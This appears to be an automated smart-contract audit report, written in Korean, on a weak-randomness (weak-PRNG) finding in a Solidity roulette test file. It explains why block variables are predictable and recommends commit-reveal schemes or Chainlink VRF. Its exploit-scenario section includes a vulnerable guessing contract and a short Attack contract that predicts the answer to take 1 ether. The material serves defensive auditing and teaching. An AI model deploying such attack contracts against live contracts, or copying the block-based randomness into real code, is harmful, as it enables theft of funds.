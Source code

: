<button class='date-button'>2023-11-23</button>

# Audit Report

> 🔍 `Filename`: /Users/sikk/Desktop/Antibug/SafeDevAnalyzer/test/prng/roulette.sol
---

[<button class='styled-button'>English</button>](roulette_en.md)
<br />


<style>
    .date-button{
        color:black;
        border:none;
        font-weight: bold;
        background-color: sand;
        width: 150px;
        height: 25px;
        float: right;
        border-radius: 20px;
    }
    .styled-button{
        color: black;
        border: none;
        font-weight: bold;
        background-color: lightskyblue;
        width: 100px;
        height: 30px;
        float: right;
        border-radius: 20px;
    }
    .styled-button:hover{
        color: black;
        border: none;
        font-weight: bold;
        background-color: pink;
        width: 100px;
        height: 30px;
        float: right;
        cursor: pointer;
    }
</style>

               
<details>
<summary style='font-size: 20px;'>weak-prng</summary>
<div markdown='1'>

## Detect Results

| Detector | Impact | Confidence | Info |
|:---:|:---:|:---:|:---:|
| weak-prng | <span style='color:lightcoral'> High </span> | <span style='color:olivedrab'> Medium </span> | guess 함수는 블록 변수를 이용하여 난수를 생성합니다. IF _guess == answer |||


## Vulnerabiltiy in code:

```solidity
line 5:     function guess(uint _guess) public {

```
 ---

 ```solidity
line 13:         if (_guess == answer) {

```
 ---

 
<details>

<summary style='font-size: 18px; color:pink;'> 💡 Background </summary><br />

블록체인에서 Randomness란?
- Randomness는 `pseudo-randomness`와 `true-randomness`로 구분할 수 있습니다.
    - `pseudo-randomness`는 결정론적 알고리즘에 의해 생성되며, 초기 시드 값을 알고 있다면 예측할 수 있습니다.
    - `true-randomness`는 엔트로피 소스에 의존하고 있어, 예측 불가능한 랜덤 값을 생성합니다.

- 블록체인 네트워크의 노드는 다양한 알고리즘을 이용해 `pseudo-randomness`를 생성할 수 있으며, 복권 당첨자 선정, 보상 분배, 게임에서 NFT 토큰 아이템의 희귀도, 전리품 분배 등의 시나리오에서 난수를 사용합니다.
- 그러나 블록체인은 네트워크의 모든 노드가 동일한 결론에 도달하도록 보장하기 때문에, 동일한 입력이 주어지면 컨트랙트의 출력은 항상 동일하다는 특징이 있습니다.
    
</details>

<br />

## Description:


블록체인에서는 완전한 난수를 생성할 수 없습니다.
완전한 난수가 생성되지 않는다는 것은 난수 생성에 대한 결과를 예측할 수 있어 조작을 할 수 있다는 것을 의미합니다.

완전한 난수는 `atmospheric noise`나 `user action` 등 예측할 수 없는 외부 요인에 의존해야 하지만, 스마트 컨트랙트는 이러한 요인에 직접적으로 접근할 수 없어 완전한 난수를 생성할 수 없습니다.
특히나, 스마트 컨트랙트는 개인키 생성 등 보안 메커니즘을 위해 사용하는 경우도 있으나, 공격자가 개인 키를 예측하여 계정이나 자금에 무단으로 액세스할 수도 있습니다.

블록체인에서 난수를 생성하는 방법은 크게 두 가지로 나눌 수 있습니다.

`1. 블록체인 네트워크의 노드가 생성한 난수를 사용하는 방법`

블록 변수에는 `block.basefee(uint)`, `block.chainid(uint)`, `block.coinbase()`, `block.difficulty(uint)`, `block.gaslimit(uint)`, `block.number(uint)`, `block.timestamp(uint)`, `blockhash(uint)` 등이 있으며,
이 중 `block.difficulty`, `blockhash`, `block.number`, `block.timestamp`가 난수 생성에 주로 활용됩니다.

https://docs.soliditylang.org/en/latest/units-and-global-variables.html#block-and-transaction-properties:~:text=use%20utility%20functions.-,Block%20and%20Transaction%20Properties,%EF%83%81,-blockhash(uint%20blockNumber

블록 데이터에 의해 생성되는 난수는 일반적인 사용자가 난수를 예측할 수 있는 가능성은 제한하지만, 악의적인 채굴자는 블록 데이터를 조작하여 난수를 조작할 수 있습니다.
블록 데이터는 한 블록에서 동일한 값을 갖고 있어, 같은 블록에서 난수를 생성하면 항상 동일한 결과를 얻을 수 있습니다.


`2. 외부 난수 생성기를 사용하는 방법`

블록체인 오라클에서 난수 시드를 생성할 수 있으며, 온체인 오라클을 사용해 오프체인 데이터를 온체인에서 얻을 수 있습니다.
API 데이터와 같은 외부 randomness 소스를 가져와 컨트랙트 동작에 영향을 줄 수 있어 블록체인 변수를 사용해 난수를 생성하는 것보다 예측 불가능성을 높일 수 있지만, 오라클에 대한 신뢰도 문제가 발생할 수 있습니다.
    

## Recommendation:


- `block.hash`, `block.timestamp`를 난수 생성을 위한 소스로 사용하지 않는 것이 좋습니다.
- 참가자가 미리 값을 commit하고, 모든 commit이 제출된 후 실제 값이 공개되는 방식(`Commit-Reveal Schemes`)으로 난수를 생성하는 것이 좋습니다.
- 여러 입력을 활용해 난수를 생성하는 탈중앙화 솔루션인 `Chainlink VRF(Verifiable Random Function)`를 활용하는 것이 좋습니다.
- 하드웨어 난수 생성기(RNG)를 사용해 공격자가 예측할 수 없는 무작위 값 생성하는 것이 좋습니다.  
    

## Exploit scenario:


```solidity
contract GuessTheRandomNumber {
    constructor() payable {}
    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );
 
        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
 }
 ```
 
- 이전 블록의 `blockhash`와 `block.timestamp`을 난수 시드로 결합하여 업데이트 하는 방식으로 난수를 생성하고 있습니다.
- 사용자가 추측한 숫자가 생성된 숫자와 일치하면 `1 ether`를 획득하게 되는 컨트랙트이며, 무작위성이 도입된 것으로 보이지만 조작이 가능합니다.

```solidity
contract Attack {
    receive() external payable {}

    unction attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );
 
        guessTheRandomNumber.guess(answer);
    }
 
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
 }
 ```    
 
- 공격자는 `GuessTheRandomNumber` 컨트랙트의 주소를 전달해 deploy 하여 `Attack` 컨트랙트를 생성합니다.
- attack 함수에서는 GuessTheRandomNumber 컨트랙트의 guess 로직을 동일하게 구현하여, 이전 블록의 `blockhash`와 `block.timestamp`을 난수 시드로 결합하여 업데이트 하는 방식으로 난수를 생성합니다.
- `GuessTheRandomNumber` 컨트랙트의 `guess` 함수가 동일한 블록에서 실행되면 `block.number`와 `block.timestamp`는 변경되지 않기 때문에 동일한 난수를 생성할 수 있게 되어, 공격자는 `1 ether`를 획득할 수 있습니다.  
    

## Real World Examples:


1. `SmartBillions ICO (2017)`: SmartBillions는 이더리움 기반의 로또 플랫폼으로, 공격자가 로또 게임 결과를 조작하여 상금 획득할 수 있었습니다.
    https://etherscan.io/address/0x5ace17f87c7391e5792a7683069a8025b83bbd85
    https://www.reddit.com/r/ethereum/comments/74d3dc/smartbillions_lottery_contract_just_got_hacked/   
     
2. `Fomo3D (2018)`: Fomo3D는 이더리움 스마트 컨트랙트 기반의 게임으로, 공격자가 게임 결과를 조작하여 상금을 획득할 수 있었습니다.
    https://etherscan.io/address/0xa62142888aba8370742be823c1782d17a0389da1
    https://medium.com/@zhongqiangc/randomness-in-smart-contracts-is-predictable-and-vulnerable-fomo3d-part-1-4d500c628191
    

## Reference:


- https://www.slowmist.com/articles/solidity-security/Common-Vulnerabilities-in-Solidity-Randomness.html
- https://medium.com/@solidity101/100daysofsolidity-072-source-of-randomness-in-solidity-smart-contracts-ensuring-security-and-7af014bfac22
- https://dev.to/natachi/attack-vectors-in-solidity-09-bad-randomness-also-known-as-the-nothing-is-secret-attack-ca9
- https://medium.com/rektify-ai/bad-randomness-in-solidity-8b0e4a393858
    

</details>

